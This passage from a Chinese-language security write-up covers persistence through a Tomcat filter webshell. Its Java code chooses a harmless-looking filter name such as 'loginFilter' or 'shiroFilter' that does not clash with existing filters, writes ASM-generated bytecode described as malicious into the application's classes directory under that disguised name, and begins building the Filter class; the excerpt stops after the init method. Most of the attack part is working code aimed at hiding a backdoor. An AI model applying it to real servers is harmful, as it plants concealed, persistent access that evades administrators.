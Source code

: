 从常见filter列表里确定新的名字，需要和tomcat已有的名字不冲突

实际上这个`nameArray`数组可以设置为可配置的，自行根据目标业务逻辑编写

```java
String[] nameArray = new String[]{"testFilter", "loginFilter", "coreFilter",
                                  "userFilter", "manageFilter", "shiroFilter", "indexFilter"};
List<String> nameList = Arrays.asList(nameArray);
// 随机打乱数组
Collections.shuffle(nameList);
String finalName = null;
// 选择一个目前tomcat中不包含的filter
for (String s : nameArray) {
    if (names.contains(s)) {
        continue;
    }
    finalName = s;
}
if (finalName == null) {
    return;
}
String newClassName = finalName;
// 驼峰处理 testFilter->TestFilter
byte[] items = newClassName.getBytes();
items[0] = (byte)((char)items[0]-'a'+'A');;
newClassName = new String(items);
```

动态字节码
-----

根据以上收集到的信息，将字节码写入指定位置

例如项目的包名是`com.test.project`，模拟的类名是`UserFilter`，那么就需要构造出恶意的字节码，写入`.../classes/com/test/project/UserFilter.class`

```java
byte[] code = getFilter(startName + "/" + newClassName);
Files.write(
    Paths.get(path + "/" + newClassName + ".class"),
    code);
String tmpName = startName + "/" + newClassName;
tmpName = tmpName.replaceAll("/", ".");
```

上文的`getFilter`函数其实是重点部分，作用是根据类名生成字节码

动态生成字节码就要借助ASM框架，代码如下

```java
public static byte[] getFilter(String fullName) {
    ClassWriter classWriter = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
    MethodVisitor methodVisitor;

    classWriter.visit(V1_8, ACC_PUBLIC | ACC_SUPER, fullName, null, "java/lang/Object", new String[]{"javax/servlet/Filter"});
    methodVisitor = classWriter.visitMethod(ACC_PUBLIC, "<init>", "()V", null, null);
    methodVisitor.visitCode();
    methodVisitor.visitVarInsn(ALOAD, 0);
    methodVisitor.visitMethodInsn(INVOKESPECIAL, "java/lang/Object", "<init>", "()V", false);
    methodVisitor.visitInsn(RETURN);
    methodVisitor.visitMaxs(1, 1);
    methodVisitor.visitEnd();
    methodVisitor = classWriter.visitMethod(ACC_PUBLIC, "init", "(Ljavax/servlet/FilterConfig;)V", null, new String[]{"javax/servlet/ServletException"});
    methodVisitor.visitCode();
    methodVisitor.visitInsn(RETURN);
    methodVisitor.visitMaxs(0, 2);
```